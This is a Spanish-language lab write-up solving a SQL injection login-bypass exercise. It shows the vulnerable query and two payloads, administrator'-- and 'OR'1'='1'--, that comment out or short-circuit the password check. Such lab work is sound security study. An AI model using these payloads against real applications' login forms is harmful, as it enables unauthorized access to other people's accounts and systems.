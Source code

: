# 02 Lab: SQL injection vulnerability allowing login bypass

## Objetivo

```bash
This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.
```

## Solución

1. Modificamos el campo `usuario` utilizando el valor `administrator'--`  De esta manera podremos acceder al panel de administración

```sql
SELECT * FROM USERS WHERE username = '$user' and password = '$password'
$usuario = "administrator'-- "
SELECT * FROM USERS WHERE username = 'administrator'--' and password = '$password'

```

![image.png](02%20Lab%20SQL%20injection%20vulnerability%20allowing%20login%20%2012cfab5460ec808eba98dd6eb827d699/image.png)

## Alternativa

1. Cambiamos los parámetros `usuario` y `contraseña` con los campos  `administrator` y `'OR'1'='1'--`

```sql
$usuario = "administrator"
$contraseña = "'OR'1'='1'--"
SELECT * FROM USERS WHERE username = 'administrator' and password = '' OR '1'='1'--

```